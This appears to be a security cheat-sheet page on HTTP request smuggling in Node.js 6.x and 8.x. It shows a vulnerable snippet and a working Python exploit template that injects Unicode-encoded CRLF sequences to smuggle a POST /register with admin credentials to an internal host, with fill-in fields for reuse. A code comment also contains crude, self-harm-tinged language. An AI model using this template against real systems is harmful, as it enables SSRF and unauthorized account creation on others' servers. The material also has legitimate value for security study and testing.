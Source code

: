 # HTTP request smuggling
## Node 6.x and 8.x
[Node.js `http` module](https://translate.google.com/website?sl=auto&tl=en&hl=ar&u=https://github.com/nodejs/node/issues/13296) is vulnerable to this attack and can be abused to trigger an SSRF attack.
- Vulnerable code
```js
const http = require('http') const server = http.createServer((req, res) => { console.log(req.url); res.end(); }); server.listen(8000, function() { http.get('http://127.0.0.1:8000/?param=x\u{0120}HTTP/1.1\u{010D}\u{010A}Host:{\u0120}127.0.0.1:8000\u{010D}\u{010A}\u{010D}\u{010A}GET\u{0120}/private', function() { }); });
```
- Python template for abusing
```python
#!/usr/bin/python3
import requests

url = "http://134.209.23.209:31246/api/weather" # Change
proxy = {"http":"http://127.0.0.1:8080"}

"""Smuggled request options"""
Method = "post".upper() # Change
endpoint_to_smuggle = "/register" # Change
host_to_smuggle = "127.0.0.1" # Change
post_data_to_smuggle = f"""username=admin&password=admin""" # Change
post_data_to_smuggle = post_data_to_smuggle.replace(" ", "\u0120").replace("'", "%27").replace('"', "%22")
content_length = len(post_data_to_smuggle)

if Method == "POST":
    smuggle = '\u0120HTTP/1.1\u010D\u010AHost:\u0120' + host_to_smuggle + '\u010D\u010A\u010D\u010A' + Method + '\u0120' + endpoint_to_smuggle + '\u0120HTTP/1.1\u010D\u010AHOST:\u0120' + host_to_smuggle + '\u010D\u010AContent-Type:\u0120application/x-www-form-urlencoded\u010D\u010AContent-Length:\u0120' + str(content_length) + '\u010D\u010A\u010D\u010A' + post_data_to_smuggle + '\u010D\u010A\u010D\u010AGET\u0120/?Abuqasem=lol'
else:
    smuggle = '\u0120HTTP/1.1\u010D\u010AHost:\u0120' + host_to_smuggle + '\u010D\u010A\u010D\u010A' + Method + '\u0120/' + endpoint_to_smuggle + '\u0120HTTP/1.1\u010D\u010AHOST:\u0120' + host_to_smuggle + '\u010D\u010AContent-Type:\u0120application/x-www-form-urlencoded\u010D\u010AContent-Length:\u0120' + str(content_length) +'\u010D\u010A\u010D\u010AGET\u0120/?Abuqasem=lol'

"""Sending payload"""
Post_data = json={'endpoint': '127.0.0.1/'+ smuggle, 'city': 'chengdu', 'country': 'CN'} # Change (must be json to avoid unicode shit or send it by hand with burp then kill yourself)
req = requests.post(url,data=Post_data , proxies=proxy)
print("[@] Status Code: ", req.status_code)
print("[@] Response Body ", req.text)
```
> **References:**
> 1. https://www-rfk-id-au.translate.goog/blog/entry/security-bugs-ssrf-via-request-splitting
> 2. https://hackerone.com/reports/409943

